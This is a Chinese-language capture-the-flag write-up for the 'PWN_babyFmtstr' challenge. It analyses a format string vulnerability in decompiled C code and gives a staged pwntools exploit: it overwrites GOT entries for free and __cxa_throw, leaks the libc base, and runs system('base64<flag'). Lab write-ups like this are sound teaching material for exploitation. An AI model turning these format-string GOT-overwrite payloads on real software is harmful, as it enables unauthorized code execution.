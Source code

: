 
## PWN_babyFmtstr (526pt)
- 题目描述：
  
    > none
- 题目附件：[PWN_babyFmtstr](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/CTFShow-36D/pwn/PWN_babyFmtstr/PWN_babyFmtstr)
- 考察点：格式化字符串
- 难度：一般

### 程序分析
看题目名，应该是个有**格式化字符串漏洞**的题，主函数如下：

```c
__int64 __fastcall main(__int64 a1, char **a2, char **a3){
  char *ptr; // ST08_8
  char *v4; // ST10_8

  setbuf(stdin, 0LL);
  setbuf(stdout, 0LL);
  ptr = fsb();
  v4 = motto();
  printf("your motto is \"%s\"\n", v4);
  free(ptr);
  free(v4);
  return 0LL;
}
```

#### 格式字符串漏洞

其中`fsb`函数中存在格式化字符串漏洞：

```c
char *fsb(){
  char *v0; // ST08_8
  char s; // [rsp+10h] [rbp-40h]
  unsigned __int64 v3; // [rsp+48h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  sleep(0);
  puts("please input name:");
  read_n((__int64)&s, 0x32uLL);
  v0 = strdup(&s);
  printf("Hello ", 50LL, sleep);
  printf(&s);
  return v0;
}
```

> 可以输入长度小于等于50字节的格式化字符串

#### 程序保护

查看程序保护机制，发现是`Partial RELRO`，因此可以改写GOT表

```c
checksec PWN_babyFmtstr 
[*] '/home/taqini/Downloads/36D/babyfmt/PWN_babyFmtstr'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

### 解题思路

利用格式化字符串漏洞，将程序末尾的`free`函数的GOT表改写为`main`，让程序重复执行，同时泄漏libc

再次利用格式化字符串漏洞，改某函数GOT表，最终执行`system(cmd)`，拿到flag。

> 这题其实不难，GOT表可改写，再有一个printf就基本上能getshell了。但是比赛的时候我没注意到平台服务器是香港的，用`%Nc%hn`的时候会输出太多空格，导致有时没法正确得到程序输出的数据，所以我选择攻击点的时候就比较保守，格式化字符串中用的也是`%hhn`，一字节一字节改的，导致这题最终的解法有点绕远。。

#### 重复执行+泄漏libc

程序首次执行到`free`时，GOT表中的值(0x4009d6)是`plt+6`，在代码段：

```c
[0x602040] free@GLIBC_2.2.5 -> 0x4009d6 (free@plt+6) ◂— push   5
```

因此，修改`free`的GOT表后两字节，即可将其改为`main`(0x400E93)

```python
fmt0 = '%14c%12$hhn%133c%13$hhn%25$pAAAA'
fmt0+= p64(elf.got['free']+1)+p64(elf.got['free'])
sla('please input name:\n',fmt0)
```

同时，利用`%25$p`，泄漏`main`的返回地址`libc_start_main+243`，随后可以计算出libc基址

```python
data = ru('AAAA')
log.hexdump(data[-14:])
libc_start_main_ret = eval(data[-14:])
info_addr('leak',libc_start_main_ret)
libcbase = libc_start_main_ret - 0x20830
info_addr('libcbase',libcbase)
```

#### getflag

> 签到那题对`cat`、空格等等等等做了过滤，不知道这题有没有，所以选择直接执行`system("base64<flag")`

`main`函数的最后会`free`掉我们输入的字符串，因此最简单的解法就是改`free`的got表为`system`，但是`free`在之前的操作中已经被占用了，所以这里要稍微绕一下。

在格式化字符串漏洞的函数执行过后，有下面这个函数：

```c
char *motto(){
  _QWORD *v0; // rax
  __int64 sz; // [rsp+0h] [rbp-420h]
  char *v3; // [rsp+8h] [rbp-418h]
  char buf; // [rsp+10h] [rbp-410h]
  unsigned __int64 v5; // [rsp+418h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  puts("please input size of motto:");
  sz = get_ll();
  if ( sz < 0 )
    sz = -sz;
  if ( sz > 1024 )
    sz = 1024LL;
  puts("please input motto:");
  read_n((__int64)&buf, sz);
  v3 = strdup(&buf);
  if ( (unsigned __int8)sub_400B96((__int64)&buf) ^ 1 )
  {
    v0 = (_QWORD *)__cxa_allocate_exception(8LL);
    *v0 = "The format of motto is error!";
    __cxa_throw((__int64)v0, (__int64)&`typeinfo for'char const*, 0LL);
  }
  return v3;
}
```

```c
signed __int64 __fastcall sub_400B96(__int64 buf){
  int i; // [rsp+14h] [rbp-4h]
  for ( i = 0; *(i + buf); ++i ){
    if ( *(i + buf) <= 0x1F || *(i + buf) == 0x7F )
      return 0LL;
  }
  return 1LL;
}
```

> 当输入的字符串中出现`0x7f`或是小于`0x1f`的字节时，就会抛出异常。

在不抛出异常的时候，这些异常处理函数是用不到的，所以可以选择修改异常处理函数的GOT表，比如改`__cxa_throw`

```python
system = libcbase + libc.sym['system']
info_addr('system',system)

arg0=(system)&0xff
arg1=(system&0xff00)>>8
arg2=(system&0xff0000)>>16
arg3=(system&0xff000000)>>24
arg4=(system&0xff00000000)>>32
arg5=(system&0xff0000000000)>>40


fmt1 = '%'+str(arg0)+'c%12$hhn%'+str((arg1-arg0+0x100)%0x100)+'c%13$hhn'
fmt1 = fmt1.ljust(32,'B')
fmt1+= p64(elf.got['__cxa_throw'])+p64(elf.got['__cxa_throw']+1)

sl(fmt1)
sl('20')
sl(cyclic(10))

fmt2 = '%'+str(arg2)+'c%12$hhn%'+str((arg3-arg2+0x100)%0x100)+'c%13$hhn'
fmt2 = fmt2.ljust(32,'C')
fmt2+= p64(elf.got['__cxa_throw']+2)+p64(elf.got['__cxa_throw']+3)

sl(fmt2)
sl('20')
sl(cyclic(10))

fmt3 = '%'+str(arg4)+'c%12$hhn%'+str((arg5-arg4+0x100)%0x100)+'c%13$hhn'
fmt3 = fmt3.ljust(32,'C')
fmt3+= p64(elf.got['__cxa_throw']+4)+p64(elf.got['__cxa_throw']+5)

sl(fmt3)
sl('20')
sl(cyclic(10))
```

> 一次改两字节，一共改三次

改完之后还需要去触发这个函数，这个不难，直接再改一次free的got表，改到`__cxa_throw@plt`即可。

```nasm
   0x400a30 <__cxa_throw@plt>:	jmp    QWORD PTR [rip+0x20163a]
   0x400a36 <__cxa_throw@plt+6>:	push   0xb
   0x400a3b <__cxa_throw@plt+11>:	jmp    0x400970
```

> 这样既可以利用`free`的参数`"base64<flag"`，又可以执行`system`

```python
fmt4 = 'base64<flag&&%2595c%12$hnAAAAAAA'+p64(elf.got['free'])
sl(fmt4)
sl('20')
sl('base64<flag')
```

>最后一次了，不需要收数据了，就用的`%hn`

最终，执行`system("base64<flag")`打印flag

### More

you can download full exp from my [github](https://github.com/TaQini/ctf/tree/master/CTFShow-36D/pwn/PWN_babyFmtstr) 

